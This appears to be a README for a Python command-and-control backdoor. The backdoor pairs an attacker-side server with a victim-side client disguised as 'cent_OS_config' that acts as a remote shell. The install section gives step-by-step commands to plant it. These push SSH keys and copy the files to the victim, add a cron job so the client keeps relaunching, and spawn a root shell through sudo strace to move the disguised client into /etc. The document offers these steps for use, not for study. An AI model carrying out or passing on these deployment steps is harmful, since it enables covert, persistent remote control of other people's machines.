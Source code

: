 # Command-and-Control

## Backdoor Explanation
- Backdoor is primarily a two-part Python program, with an additional script and configuration file:
  - cent_OS_config (client.py) on the victim machine
  - server.py on the attacking machine
  - script.sh on the victim machine
  -config.ini on both machines
- server.py is run on the attacking machine. Once server.py is up and running, anytime client.py is run it will connect to the attacking machine and act as a remote shell.
- This remote shell allows the attacker to execute commands remotely on the victim machine from the attacking machine.

## How to install
**(indentations indicate performing the indented commands within whatever the outer level command’s shell/input request)**

- **This guide assumes:**
	- The server.py, cent_OS_config (client.py), script.sh, and config.ini files are placed in the attacker’s desktop and will end up in the victim’s /etc/ folder.
    -   If you want to move the file locations on the server’s side, you will also need to simply edit the initial setup scp commands and the location of the configuration file within the server python file.
    -   Since the file locations dictate what is and isn’t allowed to run on the client’s side, moving the file locations on the client’s side is more involved and requires editing a variety of commands, files, and permissions.
    -   For these reasons, it is not recommended to try altering the file locations on your first attempt at running the backdoor.

-   On the attacking machine:
	- ssh-keygen -t rsa -b 4096 -C “[_user_@google.com](mailto:_user_@google.com)”
    -   ssh-copy-id user@{victim machine IP address}
    -   ssh user@{victim machine IP address}
	    - mkdir -p ~/.cent_OS
	    - exit
    - scp Desktop/cent_OS_config  user@{victim machine IP address}:~/.cent_OS
    - scp Desktop/script.sh user@{victim machine IP address}:~/.cent_OS
    -   scp Desktop/config.ini user@{victim machine IP address}:~/.cent_OS
    -   ssh user@{victim machine IP address}
	    - crontab -e
		    - **Hit i**
		    - ***/{frequency in minutes to activate} * * * * /home/user/.cent_OS/script.sh**
		    - **Hit \<esc>**
		    - :wq
    - sudo strace -o /dev/null /bin/sh
	    - sudo scp /home/user/.cent_OS/cent_OS_config /etc
	    -   sudo scp /home/user/.cent_OS/config.ini /etc
	    -   chmod +rwx /home/user/.cent_OS/script.sh
	    -   exit
    - exit
   - python Desktop/server.py **and wait for the victim to make a connection**
